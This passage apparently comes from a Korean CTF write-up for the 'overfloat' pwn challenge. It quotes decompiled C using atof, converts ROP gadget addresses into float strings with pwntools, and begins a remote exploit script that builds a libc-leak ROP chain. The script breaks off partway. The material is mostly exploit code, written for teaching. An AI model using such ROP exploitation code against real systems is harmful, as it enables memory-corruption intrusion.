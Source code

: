 {{< highlight c >}}
    *(float *)&v2 = atof(&s);
    v4 = v2;
    memset(&s, 0, 0x64uLL);
    *(_DWORD *)(4LL * i + a1) = v4;
{{< /highlight >}}

위 코드의 atof 함수가 바로 그 녀석이죠.
그럼 저희는 모았던 가젯을 float형으로 변환해야 합니다.

{{< highlight python >}}
>>> u = lambda x: str(struct.unpack('<f', p32(x))[0])
>>> u(rop.rdi.address)
'5.88124264828e-39'
>>> u(overfloat.got.stdin + 1)
'8.82789025646e-39'
>>> u(overfloat.plt.puts)
'5.87982593553e-39'
{{< /highlight >}}

위와 같이 변환해서 보내게 되면 메모리에는 우리가 원하는 가젯의 주소가 들어가게 될 것입니다.

{{< highlight python >}}
r.sendlineafter(': ', u(rop.rdi.address))
r.sendlineafter(': ', '0')
r.sendlineafter(': ', u(overfloat.got.stdin + 1))
r.sendlineafter(': ', '0')
r.sendlineafter(': ', u(overfloat.plt.puts))
r.sendlineafter(': ', '0')
{{< /highlight >}}


# 익스 코드
---
{{< highlight python >}}
from pwn import *

u = lambda x: str(struct.unpack('<f', p32(x))[0])

overfloat = ELF('./overfloat', False)
libc = ELF('./libc-2.27.so', False)
rop = ROP(overfloat)

r = remote('challenges.fbctf.com', 1341)

p = log.progress('')
for _ in range(14):
    p.status(str(_))
    r.sendlineafter(': ', str(_))

p.status('pop rdi ; ret')
r.sendlineafter(': ', u(rop.rdi.address))
r.sendlineafter(': ', '0')

p.status('stdin@got + 1')
r.sendlineafter(': ', u(overfloat.got.stdin + 1))
r.sendlineafter(': ', '0')
